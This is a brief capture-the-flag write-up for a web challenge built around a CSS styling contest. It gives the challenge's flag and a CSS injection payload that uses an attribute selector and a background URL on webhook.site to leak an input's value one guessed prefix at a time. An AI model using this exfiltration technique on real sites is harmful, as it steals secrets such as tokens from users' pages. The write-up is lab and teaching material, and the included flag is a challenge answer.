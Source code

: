 # Details

I opened a contest to see who could create the most beautiful CSS styles.
Feel free to submit your CSS styles to me and I will add them to my website to judge them.

I'll even give you a sample of my site to get you started.

Flag only consists of numbers and uppercase letters.

# Author

Junhua

# Flag

`grey{X5S34RCH1fY0UC4NF1ND1T}`

# Solution

```css
input[value^="grey{this"] {
  background: url(https://webhook.site/5cf2219a-5da0-4960-b9b5-0676dcfdda5f?value=grey);
  color: red;
}
```

Use something like this to iterate through by brute force and get the values and get the flag at the end.

The url should only be fetched if the value matches the flag in the input.
